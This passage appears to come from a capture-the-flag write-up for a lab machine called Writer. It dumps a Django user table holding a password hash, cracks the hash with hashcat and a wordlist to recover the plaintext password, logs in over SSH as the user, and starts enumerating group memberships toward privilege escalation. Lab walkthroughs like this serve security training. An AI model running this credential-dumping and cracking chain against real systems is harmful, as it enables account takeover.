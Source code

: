 
Let's take a closer look at the `auth_user` table:
```Awk
MariaDB [dev]> select * from auth_user;
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
| id | password                                                                                 | last_login | is_superuser | username | first_name | last_name | email           | is_staff | is_active | date_joined                |
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
|  1 | pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A= | NULL       |            1 | kyle     |            |           | kyle@writer.htb |        1 |         1 | 2021-05-19 12:41:37.168368 |
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
1 row in set (0.000 sec)
```

### Password Cracking

Here we have a password hash for the user Kyle.  Since we saw the user on the box, we can assume that this is probably also their local user password.  Let's put it into hashcat and see what happens:
```Awk
└─# cat kyle.hash
pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=

└─# hashcat -m 10000 kyle.hash --wordlist /usr/share/wordlists/rockyou.txt --show
pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=:marcoantonio
```

### Gaining Kyle

This gives us the password `marcoantonio` and using SSH we can now login as kyle and get user.txt:
```Awk
└─# ssh kyle@writer.htb
kyle@writer.htb's password:
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
kyle@writer:~$ cat user.txt
<HASH>
```

### Kyle Enumeration

Now we need to escalate to root, but likely since there was another user on the box, we need to take a detour and gain the user john first.  Looking at the groups that kyle is a member of we notice the `filter` group in addition to the normal `kyle` and `smbgroup`
```Awk
kyle@writer:~$ cat /etc/group | grep kyle
kyle:x:1000:
filter:x:997:kyle
smbgroup:x:1002:kyle
```
